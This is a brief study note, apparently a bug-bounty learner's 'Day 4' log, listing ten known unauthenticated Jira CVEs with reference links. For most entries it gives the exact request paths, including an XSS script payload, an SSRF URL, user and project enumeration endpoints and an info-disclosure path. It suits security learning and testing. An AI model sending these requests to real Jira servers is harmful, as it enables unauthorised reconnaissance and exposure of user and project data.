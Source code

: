 `21 December 2022`
## **Day 4: What I have Learned**
***
## **JIRA**:
- Jira is a proprietary issue tracking product developed by Atlassian that allows bug tracking and agile project management.
***
## **Unauthenticated & Exploitable JIRA Vulnerabilities**:
1. CVE-2020-14179 (Sensitive Information Disclosure)
- Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspa.
- It leaks information about custom fields, custom SLA, etc.
2. CVE-2020-14181 (User Enumeration)
- Navigate to <JIRA_URL>/secure/ViewUserHover.jspa?username='<'uname'>'
3. CVE-2020-14178 (Project Key Enumeration)
-  Navigate to <JIRA_URL>/browse.<project_key>
- Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.
4. CVE-2019-3402 (XSS) 
- Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
5. CVE-2019-11581 (SSTI)
- Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspa
6. CVE-2019-3396 (Path Traversal)
7. CVE-2019-8451 (SSRF)
- Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
8. CVE-2019-8449 (User Information Disclosure)
- Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true.
- Observe that the user related information will be available.
9. CVE-2019-3403 (User Enumeration)
- Navigate to <Jira_URL>/rest/api/2/user/picker?query=<user_name_here> 
- Observe the difference in response when valid vs. invalid user is queried.
10. CVE-2019-8442 (Sensitive Information Disclosure)
- Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
- Observe that the pom.xml file is accessible.
***
## **Tools**:
1. [Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/blob/master/workflows/jira-workflow.yaml) can be used to automate most of these CVEs Detection.
## **Reports**:
1. [Information disclosure on sim.starbucks.com](https://hackerone.com/reports/632808).
2. [CVE-2020-14179 jspa leads to information disclosure](https://hackerone.com/reports/1003980).
## **Blog**:
1. [How i converted SSRF TO XSS in jira](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158).

***
- A Map Of  Unauthenticated & Exploitable JIRA Vulnerabilities
[Here.](https://xmind.app/m/Jrn7f8/).
***
## **The End**
